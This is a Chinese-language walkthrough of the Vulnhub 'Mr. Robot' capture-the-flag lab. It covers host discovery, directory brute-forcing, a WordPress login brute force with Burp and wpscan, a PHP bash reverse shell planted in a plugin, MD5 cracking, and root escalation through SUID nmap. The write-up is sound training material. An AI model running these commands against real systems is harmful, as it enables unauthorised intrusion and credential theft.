# 前言

靶机：`lampiao`，IP地址为`192.168.10.12`

攻击：`kali`，IP地址为`192.168.10.2`

都采用虚拟机，网卡为桥接模式

该靶机目前只剩下一个了，之前记得是有两台构成系列的。

> 文章中涉及的靶机，来源于`vulnhub`官网，想要下载，可自行访问官网下载，或者通过下方链接下载`https://pan.quark.cn/s/fbef6e4cb164`

>文章中涉及的靶机，来源于`vulnhub`官网，想要下载，可自行访问官网下载，或者在本公众号回复`robot`获取下载链接

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.10.1/24`扫描

也可以使用`nmap`等工具进行




# 信息收集

## 使用nmap扫描端口

```shell
nmap -sV -O 192.168.10.11 -p-
```



注意，这里的`SSH`扫描出的是处于关闭状态

## 网站信息探测

访问80端口界面，发现这一段的开场真的有点小帅，这里毕竟是截图，看不出来，大家可以自己去测试

而且对于`443`端口的访问与之一样的


哇塞，这个界面有东西的，输入对应的命令，其实是进入到对应的网站目录，不过对于每一个页面，是以图片展示的，访问`prepare`，在浏览器的`url`中添加目录，无论添加哪一个都是这种页面

应该是`wordpress`的，点击下方的`login`，以及`wappalyzer`插件的解析，确定为`wordpress`



### prepare

只有在初始界面，也就是类似终端的网站输入对应的命令，才会有对应的东西展示，在界面输入`prepare`后，会展示一段视频，啧，真的秀。这里因为`kali`是虚拟机，给的内存不大，所以在物理机访问，这个东西挺耗资源的

这是一个视频，其中介绍到，它们是`fsociety`，放到最后会有一个域名`whoismrrobot.com`，为了截图，我放了两遍


在界面终端继续输入`fsociety`，这个视频只有`are you ready to join fsociety?`，就不截图了

### inform

继续访问下一个`inform`，这里是几张图片的显示，类似于通告

这是第一张图片


第二张


第三张


第四张


### question

访问后，也是几张图片的显示

第一张


第二张


第三张


第四张


### join

访问`join`，给出的话，就是给一个邮箱，假如到`fsociety`



## 网站目录爆破

使用`gobuster、dirsearch、dirb`等工具进行

```shell
dirsearch -u http://192.168.10.12 -x 403,404 -e zip,gz
```



访问`readme`，发现一段话，应该是提示，反正就是他不会帮助


再次访问`robots.txt`发现两个文件



访问`fsocity.dic`，发现应该是一个字典，使用`curl`把内容下载下来，直接访问，因为太大，导致卡顿

```shell
curl http://192.168.10.12/fsocity.dic > dic
```



再访问另一个文件`key-1-of-3.txt`，根据文件名，这应该是第一个`key`



之前就确定有`wordpress`，这里经过扫描，发现`wp-login`等其特具有的目录后，更加确定

# 漏洞寻找

## 自动化工具测试

使用针对该`cms`的工具`wpscan`进行测试

```shell
wpscan --url http://192.168.10.12
```



但是尝试枚举用户，发现没有一个用户被枚举出

## 数据包分析进行爆破

给出的字典应该有用的，访问`login`，并进行数据包抓取，这里就用到`burp`，因为`kali`内存小，所以在物理机使用`burp`

在登录界面，输入不存在的一个用户，发现，这里的提示是明确指出用户名不存在的



那么进行爆破测试，在`burp`抓取数据包，发送到`intruder`模块



再设置一个过滤条件，虽然`burp`有一个功能是可以直接进行过滤的，不过那是在专业版才有的功能，在某些考试是只能使用社区版的，所以，这里尽量不使用那个功能

这里的设置是在社区版也是可用的



然后开始爆破，注意观察设置的过滤，发现一个用户提示不一样`elliot`



这里提示是用户`Elliot`的密码错误，啧，突然想到这里对于暴力破解是没有做任何限制的，这就考察基本的思路点，对于现实碰到的条件限制，进一步思索，这里有爆破的思路即可

那么再次使用这个数据包，对用户`Elliot`的密码再破解，这里我依然建议使用`burp`，不过把资源池调高一点，也就是线程调高



依然设置过滤，不过这里需要刷新一下，重新获取新的响应包



这里需要时间，要等等，查看网上`wp`，确定密码为`ER28-0652`，检测字典文件，发现在最后，这字典太大了，以我电脑配置，这时间太长，所以我把位置调整了一下



这里也可以使用`wpscan`进行测试，可能也会比`burp`快吧，因为同样的位置，我电脑配置来说，`wpscan`更快

```shell
wpscan --url http://192.168.10.12 -U Elliot Elliot -P dic -t 50
```




# 登录网站后台

用户`Elliot`，密码为`ER28-0652`，以这个身份去登录

成功进入后台，那么先看插件吧，毕竟对于`wordpress`插件漏洞很多



在下面发现`hello dolly`，直接把它激活，然后进入编辑界面，测试能否编辑，发现可以，那么可以自己编写反弹`shell`，或者利用`kali`中带有的反弹`shell`


先更改以下代码进行测试，若不行，再更换，触发反弹`shell`，当然还是需要先在`kali`开启监听的

```php
<?php
system("/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/9999 0>&1'");
?>
```



# 提权

## 提权至robot

首先查看`wordpresss`连接数据库的文件`wp-config.php`，反弹`shell`后，就在当前目录下，直接查看即可，用户名`bn_wordpress`，密码`570fd42948`，数据库名称`bitnami_wordpress`，端口是`3306`

数据库类型是`mysql`



并且当前目录下，有一个文件名，叫做，你永远猜不到的文件名



查看靶机内的用户，发现只有`robot`在`/home`下有目录，不过查看`/etc/passwd`并没有指定`bash`



切换到`/home/robot`下，发现有密码文件，具有查看权限，查看发现是`md5`加密

```shell
robot:c3fcd3d76192e4007dfb496cca67e13b
```



可通过在线网站`somd5.com`解密，或者通过`john`破解也是可以，不过爆破时间感觉会很长的

最后解密为`abcdefghijklmnopqrstuvwxyz`



提权到`robot`成功，并且获得第二个`key`



## 提权至root

使用`find`寻找具有SUID权限文件，发现`sudo`，不过测试，当前用户不许`sudo`

```shell
find / -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
```



不过这里发现一个`nmap`具有SUID权限，可查看网站`gtfobins.github.io`查看用法

不过这里是进行文件写入的，这里因为是具有SUID权限，所以对于`sudo`提权也可以进行测试的



```shell
LFILE=/tmp/1
/usr/local/bin/nmap -oG=$LFILE test
```



```shell
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
/usr/local/bin/nmap --script=$TF
```

最终测试，下面这个可行，为什么呢，因为版本在可利用的范围内



```shell
/usr/local/bin/nmap --interactive
nmap> !sh
```



# 总结

该靶机主要考察以下几点：

1. 对于网站信息收集，这里第一点就是网站目录的方面，然后发现字典
2. 这里其实对于网站目录，其实在其中一个文件中，说到，你现在编程一个脚本猫了吗，也就是不要全部依赖这种工具去跑，这是作者给的警醒
3. 然后就是使用`wp-scan`没有枚举出用户，通过`burp`抓取数据包进行分析，发现对于错误的用户名有怎样的提示，根据提示进行用户名爆破，使用前面给的字典
4. 这里没有对爆破进行限制，就是作者的警告，不要过于依赖自动化的脚本，而不清楚原理
5. 通过编写`php`脚本进行反弹shell，然后在靶机收集信息
6. 通过暴力破解`md5`值，来获取`robot`用户的密码
7. 最后通过SUID权限文件`nmap`成功提权


